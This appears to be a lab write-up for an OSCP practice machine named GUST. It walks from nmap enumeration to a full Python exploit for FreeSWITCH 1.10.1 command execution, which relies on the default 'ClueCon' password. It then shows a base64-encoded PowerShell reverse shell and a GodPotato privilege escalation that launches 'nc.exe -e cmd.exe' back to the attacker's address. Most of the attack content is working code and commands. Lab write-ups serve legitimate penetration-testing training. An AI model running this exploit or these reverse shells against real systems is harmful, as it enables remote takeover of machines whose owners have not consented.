







# GUST

## Enumeration

```
Nmap scan report for gust.oscp (192.168.235.151)
Host is up (0.052s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE          VERSION
80/tcp   open  http             Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
|_ssl-date: 2024-08-04T00:03:06+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: OSCP
|   NetBIOS_Domain_Name: OSCP
|   NetBIOS_Computer_Name: OSCP
|   DNS_Domain_Name: OSCP
|   DNS_Computer_Name: OSCP
|   Product_Version: 10.0.19041
|_  System_Time: 2024-08-04T00:03:01+00:00
| ssl-cert: Subject: commonName=OSCP
| Not valid before: 2024-04-08T08:51:28
|_Not valid after:  2024-10-08T08:51:28
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
-   Hops 1-3 are the same as for 192.168.235.149
4   52.01 ms gust.oscp (192.168.235.151)
```

### Web Server (80)

I start here. It is just a default IIS install. I run feroxbuster against it to be sure but find nothing:


```bash
feroxbuster -L 20 -k -C 404 -r -w dir_enum.txt -u http://gust.oscp -o p80_directory.feroxbuster
```


<figure><figcaption><p>Nothing found via feroxbuster</p></figcaption></figure>

### Port 8021

This port seems to be running [FreeSWITCH](https://signalwire.com/freeswitch) which is a "open-source communication framework that powers some of the world's largest telephony infrastructures."

Simply [Googling](https://www.google.com/search?q=port+8021+freeswitch-event\&client=firefox-b-1-e\&sca\_esv=23b8fd744dd7098e\&sxsrf=ADLYWIK6kHXfossaNyiX\_dRmSHO12m0oeA%3A1723592114311\&ei=su27ZvbUEvCAm9cPz7ntoQ0\&oq=port+8021+freeswi\&gs\_lp=Egxnd3Mtd2l6LXNlcnAiEXBvcnQgODAyMSBmcmVlc3dpKgIIADIEECMYJzIFEAAYgAQyCxAAGIAEGIYDGIoFMgsQABiABBiGAxiKBTILEAAYgAQYhgMYigUyCBAAGIAEGKIEMggQABiABBiiBDIIEAAYgAQYogQyCBAAGIAEGKIEMggQABiABBiiBEjWElC7A1jGC3AAeAKQAQOYAZYEoAGdDqoBCzAuNC4xLjAuMS4xuAEDyAEA-AEBmAIFoALWB8ICBBAAGEfCAgYQABgWGB7CAggQABgWGB4YD5gDAIgGAZAGCJIHCTEuMi4xLjAuMaAH6jU\&sclient=gws-wiz-serp) "port 8021 freeswitch-event" reveals an EDB entry for command execution. This is clearly a good starting point.

## Foothold

Using what I learned [above](gust.md#port-8021) I head straight into FreeSWITCH RCE.

## FreeSWITCH RCE

#### Exploit Code

I do some modification to [EDB 47799](https://www.exploit-db.com/exploits/47799) and end up with `freeswitch-exploit.py`:


```python
#!/usr/bin/python3

# Exploit Title: FreeSWITCH 1.10.1 - Command Execution
# Date: 2019-12-19
# Vendor Homepage: https://freeswitch.com/
# Software Link: https://files.freeswitch.org/windows/installer/x64/FreeSWITCH-1.10.1-Release-x64.msi
# Version: 1.10.1
# Tested on: Windows 10 (x64)
#
# REWORKED VERSION OF EDB 47799


from socket import *
import sys
import argparse
import logging

LOGGER = logger = logging.getLogger(__name__)


def main(args):

    # Set log level
    log_level = None
    if args.verbosity == 1: log_level = logging.INFO
    elif args.verbosity >= 2: log_level = logging.DEBUG
    else: log_level = logging.WARNING
    logger.setLevel(log_level)

    # Set up stream handler
    ch = logging.StreamHandler()
    ch.setLevel(logging.DEBUG)

    # Create formatter and add it to ch
    formatter = logging.Formatter('[{asctime:23s}] - [{funcName:^10s}][{lineno:04d}] - [{levelname:^8s}] -- {message}', style='{')
    ch.setFormatter(formatter)

    # add ch to logger
    logger.addHandler(ch)


    #--------------------------------------  BEGIN EXECUTION  --------------------------------------
    
    # Log configuration
    logger.info(f'Target: {args.target}')
    logger.debug(f'Port: {args.port}')
    logger.info(f'Command: "{args.cmd}"')
    logger.debug(f'Password: "{args.password}"')


    # Make connection
    s=socket(AF_INET, SOCK_STREAM)
    s.connect((args.target, args.port))

    # Receive response to connection request
    response = s.recv(1024)
    
    # Ensure authentication is requested
    if b'auth/request' in response:

        logger.debug(f'Prompted for authentication')
        
        # Send password and receive response
        s.send(bytes('auth {}\n\n'.format(args.password), 'utf8'))
        response = s.recv(1024)
        
        # Check if login successful
        if b'+OK accepted' in response:

            logger.info(f'Authenticated successfully')
            
            # Send command and receive response
            s.send(bytes('api system {}\n\n'.format(args.cmd), 'utf8'))
            response = s.recv(8096).decode()
            logger.info(f'Response received from API')

            # Print output to stdout if requested
            if args.show_output:
                print(f'\n\n{"-" * 25}  API RESPONSE  {"-" * 25}\n\n{response}\n')
        
        else:
            logger.error(f'Authentication failed with password "{args.password}"')
            sys.exit(1)
    else:
        logger.warning(f'Not prompted for authentication, target is likely not vulnerable')
        sys.exit(1)


def __parse_args():
    parser = argparse.ArgumentParser()
    
    parser.add_argument(
        "-t", "--target",
        type=str,
        help="IP of target Freeswitch instance instance",
        nargs='?',
        required=True
    )

    parser.add_argument(
        '-p', '--port',
        type=int,
        help='Port of Freeswitch (default is 8021)',
        nargs='?',
        default=8021
    )

    parser.add_argument(
        '-c', '--cmd',
        type=str, nargs='?',
        default='whoami',
        help="Command to run on system"
    )

    parser.add_argument(
        '-v', '--verbosity',
        action='count',
        default=0
    )

    parser.add_argument(
        '-P', '--password',
        type=str,
        help='Password for login',
        nargs='?',
        default='ClueCon'
    )

    parser.add_argument(
        '-s', '--show-output',
        action='store_true',
        help='Flag used to display API response in stdout'
    )
    parser.set_defaults(show_output=False)

    arguments = parser.parse_args()
    return arguments


if __name__ == "__main__":
    arguments = __parse_args()
    main(arguments)
```


#### Using Exploit

The help (`-h`) flag can be used to understand the arguments:

<figure><figcaption><p>Exploit flags explained</p></figcaption></figure>

The exploit can be run with the command:

```bash
freeswitch-exploit.py -t 192.168.249.151 -c "ipconfig" -vv -s
```

<figure><figcaption><p>Successful command execution</p></figcaption></figure>

### Reverse Shell

Now that I have command execution I need to turn it into a reverse shell. The simplest place to start is with a PowerShell reverse shell generated with [revshells.com](https://www.revshells.com/):

```bash
freeswitch-exploit.py -t gust.oscp -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADEANQA3ACIALAAxADMANQApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=" -s
```

<figure><figcaption><p>Reverse shell obtained</p></figcaption></figure>

User access achieved as `chris`.

## Privilege Escalation

Before I start anything I run `whoami /all` and find my user has `SeImpersonatePrivilege`:

<figure><figcaption><p>whoami /all as chris</p></figcaption></figure>

### `SeImpersonatePrivilege`

#### Exploit

My plan is to use one of the many SeImpersonatePrivilege abuse tools to launch a Netcat reverse shell. I download Netcat and validate I can use it to reach a listener at port 8000 on my machine. This works so I know it is not behind a firewall or something.&#x20;

I download PrintSpoofer and run it, but it fails. I then download GodPotato and successfully use that to launch a reverse shell:

```
GodPotato.exe -cmd "nc.exe -e cmd.exe 192.168.45.157 8000"
```

* It is recommended to use full paths to the `.exe` files in actual usage

<figure><figcaption><p>Elevated shell</p></figcaption></figure>

Elevated access achieved.

<figure><figcaption><p>Flags</p></figcaption></figure>
